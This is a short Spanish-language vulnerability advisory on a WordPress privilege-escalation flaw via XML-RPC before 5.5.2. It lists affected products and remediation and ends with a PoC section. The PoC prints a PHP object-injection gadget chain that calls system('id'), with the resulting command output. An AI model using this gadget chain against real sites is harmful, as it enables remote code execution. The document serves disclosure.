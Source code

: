 ### Severidad: CRÍTICA

### CWE-264: Las debilidades en esta categoría están relacionadas con la gestión de permisos, privilegios y otras características de seguridad que se utilizan para realizar el control de acceso.

### Descripción:

WordPress antes de la versión 5.5.2 permite a los atacantes obtener privilegios a través de XML-RPC.

XML-RPC (Remote Procedure Call) es un protocolo que permite la llamada a procedimientos de forma remota, usa XML para codificar los datos y HTTP para su transporte.

En este protocolo quedan definidos algunos comandos útiles y una breve descripción.

### Productos y versiones vulnerables

- cpe:2.3: a :wordpress:wordpress: * : * : * : * : * : * : * : *
- cpe:2.3: o :fedoraproject:fedora:31: * : * : * : * : * : * : *
- cpe:2.3: o :fedoraproject:fedora:32: * : * : * : * : * : * : *
- cpe:2.3: o :fedoraproject:fedora:33: * : * : * : * : * : * : *
- cpe:2.3: o :debian:debian_linux:10.0: * : * : * : * : * : * : *

### Remediación

Tanto wordpress como en los foros de Fedora se recomienda simplemente actualizar los plugins a su última versión.

### Exploit / PoC

```php

WC_Log_Handler_File Object

(

[handles:protected] => Requests_Utility_FilteredIterator Object

(

[callback:protected] => system

[storage:ArrayIterator:private] => Array

(

[0] => id

)

)

)

uid=1000(nth347) gid=1000(nth347) groups=1000(nth347),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)

```
